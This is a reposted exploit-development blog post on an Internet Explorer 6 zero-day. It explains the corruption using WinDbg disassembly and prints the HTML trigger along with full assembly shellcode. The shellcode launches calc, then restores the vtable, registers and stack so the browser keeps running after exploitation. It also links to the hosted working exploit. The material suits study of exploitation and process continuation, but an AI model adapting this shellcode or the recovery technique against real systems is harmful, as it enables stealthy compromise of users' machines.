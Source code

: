 ```yaml
---
layout: post
title: "Process continuation after exploit (aka. IE is my process launcher)"
description: ""
category:
tags: [exploit, process continuation, shellcode]
---
```


This is an old post from one of my old blogs so reposting here for eternity (not one of the most elegant teks, looking at you Seba from the past).

Last week another 0day was discovered in the wild exploiting Internet Explorer. And as the bug wasn’t hard
to trigger/exploit in IE 6, I thought that it would be good to add another decoration to this exploit.
As last week I was also talking to some friends about why exploit writers are not interested on recovering process (or why don’t they do it), I decided to write this post.
Here will describe how to make IE6 continue after it has been successfully exploited using last 0day bug.

The trigger for the bug is: `<table style="position: absolute; clip: rect(0);">`

When we trigger the bug we see that we are using a defaced vtable, in my IE, i see that the jump comes from EnsureDispNodeBackground:

```
0:000> ub 7dcb1c3f
mshtml!CLayout::EnsureDispNodeBackground+0x81:
7dcb1c2d 33f6            xor     esi,esi
7dcb1c2f 46              inc     esi
7dcb1c30 56              push    esi
7dcb1c31 8bcf            mov     ecx,edi
7dcb1c33 e813e2ffff      call    mshtml!CDispNode::SetBackground (7dcafe4b)
7dcb1c38 8b07            mov     eax,dword ptr [edi] ;<-- pointer to chaos
7dcb1c3a 8bcf            mov     ecx,edi
7dcb1c3c ff5030          call    dword ptr [eax+30h]
```

As you can see, the object is in edi, so it takes the vtable from object[0] and then dereferences vtable+0×30 to get the function.

After some research discovered that the vtable address was being overwritten by the function CDispNode::SetUserClip when trying to set a flag on a miscalculated address.

```
mshtml!CDispNode::SetUserClip+0x84:
7dd8b5d0 e8b4ddffff      call    mshtml!CRect::RestrictRange (7dd89389)
7dd8b5d5 8b4704          mov     eax,dword ptr [edi+4]
7dd8b5d8 23c6            and     eax,esi
7dd8b5da 0fb688101cc37d  movzx   ecx,byte ptr mshtml!CDispNode::_extraSizeTable (7dc31c10)[eax]
7dd8b5e1 8bc7            mov     eax,edi
7dd8b5e3 c1e102          shl     ecx,2
7dd8b5e6 2bc1            sub     eax,ecx
7dd8b5e8 830801          or      dword ptr [eax],1 ;<-- the address of the vtable is on *eax
```

The main idea of autorecovering exploits is that we can give the process the same state that it had before being exploited and this bug is perfect for this!.
The only corruption we have when the bug is triggered is 1 bit (afaik). We don’t really know if the vtable of the object is used again, but we are gonna fix it and set eax to 0 (the function failed).

I have used this shellcode http://code.google.com/p/w32-exec-calc-shellcode/ , greets to berendjanwever for being first on google when searching calc shellcode and having a working one, you deserve the mention!
I have not made any modification to it, just added a prologue and epilogue to save/recover the state.

```
BITS 32

;;; lets patch vtable address
and dword [edi], 0xFFFFFFFE
;;; save registers
pushad
;;; push a mark on the stack
;;; (lazy stack recovery after the payload is executed)
push 0xdead1337
;; here starts the shellcode for launching the calculator
;;  ============================================
xor esi,esi
push esi
mov esi,[fs:esi+0x30]
mov esi,[esi+0xc]
mov esi,[esi+0x1c]
l1:
mov ebp,[esi+0x8]
mov esi,[esi]
mov ebx,[ebp+0x3c]
mov ebx,[ebp+ebx+0x78]
add ebx,ebp
mov ecx,[ebx+0x18]
jcxz l1
l2:
mov edi,[ebx+0x20]
add edi,ebp
mov edi,[edi+ecx*4-0x4]
add edi,ebp
xor eax,eax
cdq
l3:
xor dl,[edi]
ror dx,0x1
scasb
jnz l3
cmp dx,0xf510
loopne l2
jnz l1
mov edx,[ebx+0x24]
add edx,ebp
movzx edx,word [edx+ecx*2]
mov edi,[ebx+0x1c]
add edi,ebp
add ebp,[edi+edx*4]
push dword 0x6578652e
push dword 0x636c6163
push esp
xchg eax,[esp]
push eax
call ebp
;;  ============================================
;;; then recover stack, search for our mark
l10:
    pop eax
    cmp eax, 0xdead1337
    jne l10
;;; restore registers
popad
;;; return from the function with error
xor eax,eax
;;; if the function had arguments we should clean them
;;; depending on the calling convention (not here :-) )
ret
;;; should never reach this point
int3
```

As we can see, recovering from the exploit is not difficult for this bug. Anyways, it could be pretty more difficult when exploiting other bugs that do more memory corruption.

The final working exploit is here: http://snf.github.io/public/data/ie_clip.html (open at your own risk ;-) ).

And the demo (for not believers) showing the exploit working 3 times and Internet Explorer still working: http://www.youtube.com/watch?v=dgV9q9Cw0PU.

Interesting slides about process continuation:
User friendly exploits, http://www.immunitysec.com/downloads/skylar_cansecwest09.pdf

Greetz to all my friends and coworkers.
And sorry to all of you who were expecting a spanish post.
